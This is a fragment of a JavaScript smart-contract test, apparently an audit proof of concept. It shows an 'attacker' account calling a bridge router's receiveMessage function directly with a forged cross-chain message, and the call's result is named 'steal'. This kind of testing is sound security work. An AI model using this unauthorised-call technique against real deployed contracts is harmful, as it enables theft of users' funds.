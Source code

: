 ```javascript
      bridgeRouterAddress,
      startingBalance,
      userId,
      bridgeMessengerAddress
    };
  }





  describe ("Anyone can call the router Recieve function",() => {

    it("Should successfuly  call the router Recieve function", async () => {
      const { user, bridgeRouter,unusedUsers, startingBalance, userId,bridgeMessengerAddress } = await loadFixture(fundUserIdFixtureBigEth);

     const attacker = unusedUsers[12];
     console.log("signer",unusedUsers[12].address);

    

      
      const message: MessageReceived = {
        messageId: getRandomBytes(BYTES32_LENGTH),
        sourceChainId: BigInt(0),
        sourceAddress: convertEVMAddressToGenericAddress(unusedUsers[0].address),
        handler: convertEVMAddressToGenericAddress(bridgeMessengerAddress),
        payload: buildMessagePayload(0, accountId, attacker.address, "0x"),
        returnAdapterId: BigInt(0),
        returnGasLimit: BigInt(0),
      };


      // directly call bridgeRouter 
     const steal = await bridgeRouter.connect(attacker).receiveMessage(message); 
      const receipt = await ethers.provider.getTransactionReceipt(steal.hash);


    });
  })
});
```
